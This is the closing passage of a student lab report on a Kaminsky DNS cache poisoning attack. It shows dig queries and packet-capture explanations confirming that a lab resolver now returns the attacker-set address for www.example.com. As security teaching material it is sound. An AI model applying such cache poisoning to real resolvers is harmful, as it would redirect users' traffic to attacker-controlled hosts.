;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
; COOKIE: 22bedaa0b79ff3a4010000006277e50767c055a68d39896e (good)
;; QUESTION SECTION:
;www.example.com.               IN      A

;; ANSWER SECTION:
www.example.com.        259200  IN      A       1.2.3.5

;; Query time: 0 msec
;; SERVER: 10.9.0.53#53(10.9.0.53)
;; WHEN: Sun May 08 15:43:03 UTC 2022
;; MSG SIZE  rcvd: 88
```

As it can be seen, also from the [capture](logs/task5_normal_dig.pcapng) below, the response for the DNS query is the `1.2.3.5` and the aforementioned `NS` record was indeed cached because in the four exchanged packets, the first one has to do with the user querying the Local DNS server, the second is the Local DNS server querying the `ns.attacker32.com` (note that the IP address of `ns.attacker32.com` is already cached from the Kaminsky attack) that matches the `example.com` domain, as cached, the third one is the response from the `ns.attacker32.com` to the Local DNS stating that `1.2.3.5` is the IP address for `www.example.com`, and the final packet is that same response from the Local DNS server to the user. 

<figure align="center">
  
  <figcaption style="text-align: center;">Figure 6. dig www.example.com capture file</figcaption>
</figure>

The second `dig` command:

```
root@e570673bd89b:/# dig @ns.attacker32.com www.example.com

; <<>> DiG 9.16.1-Ubuntu <<>> @ns.attacker32.com www.example.com
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 31410
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
; COOKIE: 80b41109b91727da010000006277e550df745fcbb4ce5628 (good)
;; QUESTION SECTION:
;www.example.com.               IN      A

;; ANSWER SECTION:
www.example.com.        259200  IN      A       1.2.3.5

;; Query time: 0 msec
;; SERVER: 10.9.0.153#53(10.9.0.153)
;; WHEN: Sun May 08 15:44:16 UTC 2022
;; MSG SIZE  rcvd: 88
```

Here we can see that, after querying the Local DNS server for the address of the attacker's name server and then querying it directly for `www.example.com`, the answer is identical to the one above (when querying the victim DNS server for `www.example.com`). 

This further proves the success of the attack, since the victim server is answering www.example.com queries with the address set by the attacker in their name server.

<figure align="center">
  
  <figcaption style="text-align: center;">Figure 7. dig @ns.attacker32.com www.example.com capture file</figcaption>
</figure>

And with that we end this lab report.